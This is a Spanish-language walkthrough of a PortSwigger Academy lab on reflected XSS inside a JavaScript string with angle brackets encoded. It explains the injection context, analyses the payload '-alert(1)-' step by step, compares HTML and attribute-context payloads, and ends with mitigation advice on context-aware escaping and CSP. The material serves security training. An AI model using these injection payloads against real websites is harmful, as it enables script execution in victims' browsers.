


# PortSwigger Academy - Lab 27 Cross-site scripting

# Reflected XSS into a JavaScript string with angle brackets HTML encoded

URL del laboratorio:

```text
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 1. Descripción original del laboratorio y traducción al español

## Título original

```text
Reflected XSS into a JavaScript string with angle brackets HTML encoded
```

## Traducción

```text
XSS reflejado dentro de una cadena JavaScript con los caracteres de ángulo codificados en HTML.
```

## Descripción original

```text
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are HTML encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

## Traducción al español

Este laboratorio contiene una vulnerabilidad de cross-site scripting reflejado en la funcionalidad de seguimiento de búsquedas, donde los caracteres de ángulo (`<` y `>`) están codificados en HTML.

La reflexión ocurre dentro de una cadena de texto en JavaScript.

Para resolver este laboratorio, realiza un ataque de cross-site scripting que rompa la cadena de JavaScript y llame a la función `alert`.

## Instrucciones del laboratorio traducidas

Introduce una cadena alfanumérica aleatoria en el cuadro de búsqueda y luego usa Burp Suite para interceptar la petición de búsqueda y enviarla a Burp Repeater.

Observa que la cadena aleatoria se ha reflejado dentro de una cadena de JavaScript.

Sustituye tu entrada por el siguiente payload para salir de la cadena de JavaScript e inyectar un `alert`:

```javascript
'-alert(1)-'
```

Verifica que la técnica ha funcionado haciendo clic derecho, seleccionando `Copy URL`, y pegando la URL en el navegador.

Al cargar la página, debería aparecer un `alert`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 2. Objetivo del laboratorio

El objetivo de este laboratorio es ejecutar JavaScript en el navegador de la víctima mediante XSS reflejado.

Pero este laboratorio tiene una diferencia importante respecto a otros laboratorios de XSS:

```text
No estamos inyectando HTML.
No estamos creando una etiqueta <script>.
Estamos inyectando dentro de una cadena JavaScript ya existente.
```

Por tanto, el objetivo real es:

1. Encontrar dónde se refleja nuestra búsqueda.
2. Confirmar que el input cae dentro de un bloque `<script>`.
3. Confirmar que el input está dentro de una cadena JavaScript delimitada por comillas simples.
4. Romper esa cadena.
5. Ejecutar `alert(1)`.
6. Mantener la sintaxis JavaScript válida para que el navegador no detenga la ejecución por error.

Payload final:

```javascript
'-alert(1)-'
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 3. Contexto teórico: qué tipo de XSS es este

Este laboratorio es un XSS reflejado, pero no es el típico caso donde el input se refleja en HTML como:

```html
<h1>Resultados para: pepe</h1>
```

Tampoco es el típico caso donde el input cae dentro de un atributo HTML como:

```html
<input value="pepe">
```

Aquí el input se refleja dentro de una cadena JavaScript:

```javascript
var searchTerms = 'pepe';
```

Eso cambia completamente la forma de explotar el XSS.

En un contexto HTML, normalmente pensamos en payloads como:

```html
<script>alert(1)</script>
```

o:

```html

```

Pero aquí no estamos en HTML.

Estamos dentro de JavaScript.

Concretamente aquí:

```javascript
'TU_INPUT'
```

Por tanto, la pregunta correcta no es:

```text
¿Cómo meto una etiqueta HTML?
```

La pregunta correcta es:

```text
¿Cómo salgo de la cadena JavaScript y ejecuto código?
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 4. Diferencia entre XSS en HTML y XSS en JavaScript

## XSS en contexto HTML

Ejemplo:

```html
<h1>0 search results for 'pepe'</h1>
```

Si el input aparece ahí y no se codifica, podríamos intentar:

```html
<script>alert(1)</script>
```

El navegador interpretaría una etiqueta HTML nueva.

## XSS en contexto atributo HTML

Ejemplo:

```html
<input value="pepe">
```

Si el input aparece dentro de un atributo, podríamos intentar romper el atributo:

```html
" autofocus onfocus=alert(1) x="
```

## XSS en contexto JavaScript

Ejemplo:

```javascript
var searchTerms = 'pepe';
```

Aquí no tiene sentido crear HTML directamente.

Aquí el navegador ya está dentro de un script.

Por eso se explota rompiendo la cadena:

```javascript
var searchTerms = ''-alert(1)-'';
```

Esto es JavaScript válido, y durante su evaluación se ejecuta `alert(1)`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 5. Por qué el bloqueo de `<` y `>` no impide este ataque

El laboratorio indica que los caracteres de ángulo están codificados en HTML:

```text
<  -> &lt;
>  -> &gt;
```

Eso bloquea payloads como:

```html
<script>alert(1)</script>
```

porque el navegador no recibe una etiqueta real.

Recibe texto codificado:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

Pero en este laboratorio no necesitamos usar `<` ni `>`.

No necesitamos crear una etiqueta `<script>`.

La etiqueta `<script>` ya existe en la página.

El servidor ya está generando algo como esto:

```html
<script>
    var searchTerms = 'testing';
</script>
```

Entonces nuestro trabajo no es crear una nueva etiqueta.

Nuestro trabajo es manipular el contenido de la cadena JavaScript.

Por eso este payload funciona aunque `<` y `>` estén codificados:

```javascript
'-alert(1)-'
```

No contiene `<`.

No contiene `>`.

Solo usa comillas simples, operadores y una llamada JavaScript.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 6. Teoría: XSS en contexto de cadena JavaScript

Cuando una aplicación mete input del usuario dentro de JavaScript, puede quedar así:

```javascript
var searchTerms = 'TU_ENTRADA_AQUI';
```

La cadena está delimitada por comillas simples:

```javascript
'...'
```

Si el atacante puede introducir una comilla simple `'`, puede cerrar la cadena antes de tiempo.

Ejemplo:

Input normal:

```text
testing
```

Resultado:

```javascript
var searchTerms = 'testing';
```

Input malicioso:

```javascript
'-alert(1)-'
```

Resultado:

```javascript
var searchTerms = ''-alert(1)-'';
```

El navegador ya no ve solamente una cadena.

Ve una expresión JavaScript.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 7. Anatomía del payload `'-alert(1)-'`

Payload:

```javascript
'-alert(1)-'
```

Vamos carácter por carácter.

## Primera comilla simple

```javascript
'
```

Cierra la cadena que abrió el programador.

El programador tenía:

```javascript
var searchTerms = '
```

Nosotros metemos `'`, así que dejamos esto:

```javascript
var searchTerms = ''
```

Ahora ya estamos fuera del string.

## Primer guion

```javascript
-
```

Es el operador de resta en JavaScript.

Se usa como pegamento sintáctico para que la expresión siga siendo válida.

Después de cerrar la cadena, necesitamos introducir algo que una la expresión.

Por eso se usa `-`.

## `alert(1)`

```javascript
alert(1)
```

Esta es la llamada que resuelve el laboratorio.

Cuando el motor JavaScript evalúa la expresión, ejecuta la función.

## Segundo guion

```javascript
-
```

Vuelve a actuar como operador para conectar con lo que queda después.

## Última comilla simple

```javascript
'
```

Sirve para casar con la comilla que originalmente iba a cerrar la cadena del programador.

Así evitamos que quede una comilla suelta y rompa la sintaxis.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 8. Transformación completa del código

## Código esperado por el programador

```javascript
var searchTerms = 'testing';
```

## Payload introducido

```javascript
'-alert(1)-'
```

## Código final recibido por el navegador

```javascript
var searchTerms = ''-alert(1)-'';
```

## Cómo lo interpreta JavaScript

```javascript
'' - alert(1) - ''
```

Esto ya no es texto.

Esto es una expresión JavaScript.

JavaScript intenta evaluar la expresión de izquierda a derecha.

1. Evalúa `''`, una cadena vacía.
2. Ve el operador `-`.
3. Evalúa `alert(1)`.
4. Al evaluar `alert(1)`, se ejecuta el popup.
5. Luego JavaScript intenta continuar con la operación.
6. El resultado numérico final no importa, porque el objetivo ya se ha cumplido.

Lo importante es esto:

```text
Para poder calcular la expresión, JavaScript tiene que ejecutar alert(1).
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 9. Por qué se usa `-` y no necesariamente `;`

Una opción típica para romper JavaScript sería:

```javascript
';alert(1);'
```

Esto intenta cerrar la cadena y terminar la sentencia con punto y coma.

Pero el payload oficial del lab usa:

```javascript
'-alert(1)-'
```

¿Por qué?

Porque en muchos contextos, usar operadores aritméticos como `-` o `+` ayuda a mantener la expresión como una sola línea válida.

El navegador interpreta todo como una expresión:

```javascript
'' - alert(1) - ''
```

Aunque esa operación no tenga sentido matemático, JavaScript la intenta evaluar.

Y para evaluarla, ejecuta `alert(1)`.

Esto es suficiente.

Además, usar operadores puede ser útil cuando ciertos caracteres como `;` están filtrados, alterados o generan problemas con el contexto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 10. Por qué no importa lo que pase después del `alert`

Después de ejecutar:

```javascript
alert(1)
```

JavaScript puede terminar evaluando algo absurdo como:

```javascript
'' - undefined - ''
```

porque `alert()` devuelve `undefined`.

Esa operación puede dar:

```javascript
NaN
```

Pero eso no importa.

El objetivo no es producir un valor correcto para `searchTerms`.

El objetivo es que el navegador ejecute código.

El popup ya ha aparecido.

Por eso decimos:

```text
El daño ya está hecho.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 11. Práctica del laboratorio

Le damos a empezar laboratorio y se nos abre la siguiente página web:

```text
https://0af800150334a68480c0f3b900350023.web-security-academy.net/
```

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Página inicial del laboratorio. Se observa el blog con el buscador. El título del laboratorio indica que se trata de un XSS reflejado dentro de una cadena JavaScript con los caracteres `<` y `>` codificados.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 12. Primer paso: probar una cadena normal

Probamos en el buscador a poner cualquier cadena alfanumérica.

En este caso:

```text
testing
```

La finalidad de esto no es explotar todavía.

La finalidad es ver dónde se refleja nuestro input.

Después inspeccionamos el código con F12.

Buscamos la cadena `testing`.

Encontramos este bloque:

```html
<script>
    var searchTerms = 'testing';
    document.write('');
</script>
```

Esto nos confirma la vulnerabilidad.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 13. Análisis del código encontrado

Código:

```javascript
var searchTerms = 'testing';
document.write('');
```

La línea importante es esta:

```javascript
var searchTerms = 'testing';
```

Aquí está entrando nuestro input.

Nuestro input no está dentro de HTML normal.

Está dentro de una variable JavaScript.

Concretamente dentro de una cadena delimitada por comillas simples:

```javascript
'testing'
```

Por tanto, el contexto exacto es:

```text
JavaScript string con comillas simples.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 14. Dónde está exactamente la vulnerabilidad

Punto vulnerable:

```javascript
var searchTerms = 'TU_INPUT';
```

Porque:

1. Controlamos `TU_INPUT`.
2. El input se mete dentro de una cadena JavaScript.
3. La cadena usa comillas simples.
4. Si podemos introducir `'`, podemos cerrar la cadena.
5. Si cerramos la cadena, podemos introducir código JavaScript.
6. Si mantenemos la sintaxis válida, el navegador ejecutará nuestro código.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 15. Por qué `document.write` no es el punto principal aquí

El código también contiene:

```javascript
document.write('');
```

Esto escribe una imagen de tracking en el DOM.

Pero en este laboratorio, el punto clave no es explotar el `document.write`.

El punto clave es que antes de llegar a `document.write`, ya se ha definido:

```javascript
var searchTerms = 'TU_INPUT';
```

Si rompemos esa línea, el `alert(1)` se ejecuta inmediatamente.

Por eso decimos:

```text
El punto vulnerable está en la definición de la variable, no en la imagen.
```

Aunque `document.write` aparezca después, el `alert` se ejecuta antes de que esa parte importe.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 16. Payload final

Introducimos en el buscador:

```javascript
'-alert(1)-'
```

Esto transforma:

```javascript
var searchTerms = 'testing';
```

en:

```javascript
var searchTerms = ''-alert(1)-'';
```

El navegador interpreta:

```javascript
'' - alert(1) - ''
```

Y ejecuta el `alert`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 17. Resultado: aparece el popup

Al introducir el payload:

```javascript
'-alert(1)-'
```

aparece el popup con `1`.

Esto se muestra en la imagen 2.



**Referencia a la imagen 2:** Popup generado por `alert(1)`. Esto confirma que hemos conseguido ejecutar JavaScript en el navegador.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 18. Verificación del código tras la inyección

Tras la inyección, el código queda así:

```html
<script>
    var searchTerms = ''-alert(1)-'';
    document.write('');
</script>
```

La parte importante es:

```javascript
var searchTerms = ''-alert(1)-'';
```

Vamos a descomponerlo:

```javascript
''
```

cadena vacía.

```javascript
-
```

operador de resta.

```javascript
alert(1)
```

función ejecutada.

```javascript
-
```

otro operador.

```javascript
''
```

otra cadena vacía.

El navegador ejecuta `alert(1)` porque necesita evaluar la expresión.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 19. Qué significa esto realmente

Esto significa que ya no estamos mostrando texto.

No estamos inyectando HTML.

No estamos creando una etiqueta nueva.

Estamos ejecutando código JavaScript directamente dentro de un bloque `<script>` que ya existía.

Esta es la clave del laboratorio.

```text
En contexto JavaScript, no inyectas HTML. Ejecutas código directamente.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 20. Laboratorio resuelto

Después de ejecutar el payload, el laboratorio queda resuelto.

Esto se ve en la imagen 3.


**Referencia a la imagen 3:** Banner de PortSwigger indicando que el laboratorio está resuelto tras ejecutar el payload `'-alert(1)-'`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 21. Comparación con laboratorios anteriores

## Si el input cae en HTML

Ejemplo:

```html
<h1>pepe</h1>
```

Payload típico:

```html
<script>alert(1)</script>
```

## Si el input cae en atributo HTML

Ejemplo:

```html
<input value="pepe">
```

Payload típico:

```html
" autofocus onfocus=alert(1) x="
```

## Si el input cae en JavaScript string

Ejemplo:

```javascript
var searchTerms = 'pepe';
```

Payload típico:

```javascript
'-alert(1)-'
```

Cada contexto exige una estrategia distinta.

El error más común es intentar usar siempre `<script>alert(1)</script>`.

Eso no funciona en todos los contextos.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 22. Resumen técnico

| Elemento | Valor |
|---|---|
| Tipo de vulnerabilidad | XSS reflejado |
| Contexto | Cadena JavaScript |
| Delimitador | Comilla simple `'` |
| Protección existente | `<` y `>` codificados |
| Payload clásico `<script>` | No sirve |
| Payload correcto | `'-alert(1)-'` |
| Objetivo | Romper la cadena y ejecutar JS |
| Resultado | `alert(1)` ejecutado |
| Laboratorio | Resuelto |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 23. Payload explicado de forma ultra simple

Tenemos:

```javascript
var searchTerms = 'AQUÍ';
```

Metemos:

```javascript
'-alert(1)-'
```

Queda:

```javascript
var searchTerms = ''-alert(1)-'';
```

JavaScript ejecuta:

```javascript
alert(1)
```

Y el lab se resuelve.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 24. Errores típicos en este laboratorio

## Error 1: intentar usar `<script>`

```html
<script>alert(1)</script>
```

No funciona porque `<` y `>` están codificados.

## Error 2: pensar que el problema está en HTML

No estamos en HTML.

Estamos en JavaScript.

## Error 3: no cerrar la comilla

Si no cierras la cadena JavaScript, tu payload queda como texto.

## Error 4: romper la sintaxis

Si cierras la cadena pero dejas el JavaScript inválido, el navegador puede lanzar error y no ejecutar el payload.

## Error 5: no inspeccionar el contexto

Siempre hay que inspeccionar dónde cae el input antes de decidir el payload.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 25. Defensa correcta

La aplicación debería aplicar codificación contextual para JavaScript.

No basta con codificar `<` y `>`.

En contexto JavaScript string, hay que escapar caracteres como:

```text
'
"
\
nuevas líneas
caracteres de control
```

Por ejemplo, si la comilla simple `'` se escapase correctamente como:

```javascript
\'
```

el payload no podría cerrar la cadena.

También sería recomendable:

1. No insertar input de usuario directamente dentro de scripts.
2. Separar datos y código.
3. Usar JSON seguro cuando sea necesario.
4. Usar funciones de encoding específicas para contexto JavaScript.
5. Aplicar Content Security Policy como defensa adicional.
6. Evitar concatenaciones inseguras en scripts inline.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 26. Ejemplo de mitigación

Código inseguro:

```javascript
var searchTerms = 'USER_INPUT';
```

Código más seguro:

```javascript
var searchTerms = JSON.parse('"USER_INPUT_ESCAPED"');
```

O mejor aún, no usar scripts inline y pasar datos mediante atributos seguros o APIs controladas.

La defensa real depende del framework, pero la idea clave es:

```text
El output encoding debe depender del contexto.
```

No es lo mismo codificar para HTML que para atributo HTML que para JavaScript.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# 27. Conclusión

Este laboratorio demuestra que bloquear `<` y `>` no es suficiente para evitar XSS.

La razón es que el ataque no necesita crear etiquetas HTML.

La reflexión ocurre dentro de una cadena JavaScript:

```javascript
var searchTerms = 'TU_INPUT';
```

Como el input está dentro de comillas simples, podemos cerrar la cadena con `'`, inyectar una llamada a `alert(1)` y mantener la sintaxis válida usando operadores.

Payload final:

```javascript
'-alert(1)-'
```

Resultado:

```javascript
var searchTerms = ''-alert(1)-'';
```

El navegador evalúa la expresión, ejecuta `alert(1)` y el laboratorio queda resuelto.

**Laboratorio resuelto.**
